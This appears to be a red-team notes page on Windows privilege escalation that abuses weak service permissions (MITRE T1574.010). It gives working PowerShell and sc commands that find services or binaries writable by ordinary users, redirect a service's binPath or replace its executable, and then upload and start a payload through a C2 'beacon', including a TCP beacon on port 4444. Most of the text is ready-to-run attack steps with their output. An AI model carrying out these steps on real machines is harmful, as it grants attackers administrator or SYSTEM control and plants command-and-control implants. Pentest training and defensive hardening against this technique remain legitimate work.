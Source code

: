 # Weak Service Permissions
Identify weak [[Windows Services]] permissions via [[Tools/SharpUp]].

## Change BinPath via ChangeConfig
1. Identify vulnerable config via Get-ServiceAcl.ps1
``````powershell
Import-Module C:\Tools\Get-ServiceAcl.ps1
Get-ServiceAcl -Name VulnService | select -expandproperty Access

ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None
``````
2. **Authenticated Users** have **ChangeConfig**, **Start** and **Stop** privileges
3. Change binPath
``````powershell
sc qc VulnService
sc config VulnService binPath= C:\Temp\test-service.exe
#query config
sc qc VulnService
#query status
sc query VulnService
sc stop VulnService
sc start VulnService
``````

## Change Service Binary
1. Identify BUILTIN\Users have **Modify**
``````powershell
Get-Acl -Path "C:\Program Files\VulnService\Service.exe" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\VulnService\Service.exe
Owner  : BUILTIN\Administrators
Group  : wkstn1\None
Access : NT AUTHORITY\SYSTEM Allow  FullControl
 BUILTIN\Administrators Allow  FullControl
 BUILTIN\Users Allow  Modify, Synchronize
 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
``````
2. Manipulate the service binary
``````powershell
sc stop VulnService
beacon> upload C:\Payloads\Service.exe
run sc start VulnService
#if tcp beacon
beacon> connect localhost 4444
``````


## Tools
########
########


```meta
ttp: T1574.010
requirements: 
results: admin
description: Weak service permissions can be abused in order to change the binpath
```